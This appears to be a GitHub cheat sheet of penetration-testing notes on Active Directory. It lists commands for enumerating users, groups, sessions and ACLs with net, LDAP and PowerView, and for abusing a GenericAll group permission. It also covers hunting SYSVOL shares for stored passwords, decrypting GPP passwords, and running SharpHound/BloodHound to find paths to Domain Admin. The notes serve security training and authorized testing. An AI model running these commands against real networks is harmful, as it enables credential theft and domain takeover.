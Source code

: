 # Active Directory

Connection: `xfreerdp /u:someuser /d:somedomain.com /v:$TargetIp`

## Native enumeration

```
net user /domain
net user someuser /domain
net group /domain
net group "Some Group With Whitespaces" /domain
```

## Ldap enumeration

https://learn.microsoft.com/en-us/windows/win32/adschema/a-samaccounttype

```
function LDAPSearch {
    param (
        [string]$LDAPQuery
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")

    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)

    return $DirectorySearcher.FindAll()

}
```
In a shell:
```
Import-Module .\myscript.ps1
LDAPSearch -LDAPQuery "(samAccountType=805306368)"
LDAPSearch -LDAPQuery "(objectclass=group)"
foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) { $group.properties | select {$_.cn}, {$_.member} }
$group = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Development Depart*))"
$group.properties.member
```

## Powerview

https://powersploit.readthedocs.io/en/latest/Recon/

### Users and groups

```
Import-Module .\PowerView.ps1
Get-NetDomain
Get-NetUser
Get-NetUser | select cn,pwdlastset,lastlogon
Get-NetGroup | select cn
Get-NetGroup "Some Department" | select member
```

### Operating System

```
Get-NetComputer
Get-NetComputer | select operatingsystem, dnshostname
```

### Permissions and logged users

```
Find-LocalAdminAccess
Get-NetSession -ComputerName somehostname
Get-NetSession -ComputerName somehostname -Verbose
Get-Acl -Path HKLM:System\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | format-list
C:\PSTools\PsLoggedon.exe \\somehostname
```
Warning: PsLoggedon.exe needs the service `Remote Registry` on the target

### Service accounts

```
cmd > setspn -L some_service
PS > Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

### Object permissions

```
Get-ObjectAcl -Identity someuser
Convert-SidToName S-1-5-21-domainidentifiernumber-relativeidentifier
Get-ObjectAcl -Identity "Some Departm*" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"sid1", "sid2", "sid3" | convert-sidtoname
```
Example of misconfiguration:
```
net group "Misconfigured Department" alreadyhackeduser /add /domain
Get-NetGroup "Mis*Dep*" | select member
net group "Misconfigured Department" hackeduser /del /domain # cleanup and check
Get-NetGroup "Mis*Dep*" | select member
```
Known IDs: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers
Abuse AD ACLs: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse

### Domain shares

Password and hash searches in network shares:
```
> Find-DomainShare
> ls \\pc.domain.com\sysvol\domain.com
> ls \\pc.domain.com\sysvol\domain.com\Policies
> cat \\pc.domain.com\sysvol\domain.com\Policies\suspicious-policy-file.xml
> ls \\otherpc.domain.com\sysvol\domain.com\documentshareoverthenetwork
> ls \\otherpc.domain.com\sysvol\domain.com\documentshareoverthenetwork\directory-with-secret-files
```
Example of password decryption:
```
kali$ gpp-decrypt "string-found-in-some-password-file"
```
Sysvol: https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx

## Automated AD enumeration

### SharpHound

```
PS > Import-Module c:\path\to\Sharphound.ps1
Get-Help Invoke-BloodHound
Invoke-BloodHound -CollectionMethod All -OutputDirectory c:\Users\hackeduser\Desktop -OutputPrefix "some_file_prefix"
ls c:\Users\hackeduser\Desktop
```

### BloodHound

```
sudo apt install neo4j
sudo apt install bloodhound
sudo neo4j start
bloodhound > upload data > more info > analysis > find shortest paths to domain admins
```

